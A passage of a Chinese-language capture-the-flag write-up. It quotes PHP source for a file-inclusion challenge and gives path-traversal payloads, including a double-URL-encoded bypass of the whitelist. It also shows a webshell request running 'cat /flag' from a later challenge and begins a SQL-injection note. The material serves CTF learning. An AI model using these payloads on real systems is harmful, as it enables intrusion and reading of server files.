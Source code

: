 ```
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }  
?> 
```

访问hint.php：

flag not here, and flag in ffffllllaaaagggg

利用的是文件包含漏洞：

利用source中的include，来将flag.php在source.php中显示出来

```
?file=source.php?/../../../../ffffllllaaaagggg 
```

然后进行两次URL编码:

```
?file=source.php%253F/../../../../ffffllllaaaagggg 
```

注意细节：/…/…/…/…/ffffllllaaaagggg

## 强网杯-2019-Web-高明的黑客

给了一大堆php后门文件，要用脚本去跑可以用的文件

木马：xk0SzyKwfzw.php?Efa5BVG=cat /flag

Efa5BVG

## SUCTF-2019-Web-easysql

### 知识点：

利用mysql的内置变量将||的性质改变为字符串的连接符，而非或运算符
